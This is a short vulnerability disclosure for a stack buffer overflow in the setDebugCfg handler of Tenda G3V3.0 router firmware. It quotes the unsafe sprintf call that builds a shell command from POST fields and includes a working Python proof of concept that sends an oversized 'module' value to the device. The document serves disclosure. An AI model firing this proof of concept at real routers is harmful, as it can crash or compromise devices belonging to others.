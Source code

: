 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3369.html

## Affected version

G3V3.0 V15.11.0.20

## Vulnerability details

The Tenda G3V3.0 V15.11.0.20 firmware has a stack overflow vulnerability in the `formSetDebugCfg` function. The `pEnable, pLevel, pModule` variable receives the `enable, level, module` parameter from a POST request. However, since the user can control the input of `enable, level, module`, the statement

```c
sprintf(
    (char *)cmd,
    "echo enable=%s level=%s > /var/debug/%s",
    (const char *)pEnable,
    (const char *)pLevel,
    (const char *)pModule);
```

can cause a buffer overflow. The user-provided  `enable, level, module` can exceed the capacity of the `cmd` array, triggering this security vulnerability.

![image-20240417093917502](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417093917502.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setDebugCfg"
payload = b"a"*2000

data = {
        'module':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```
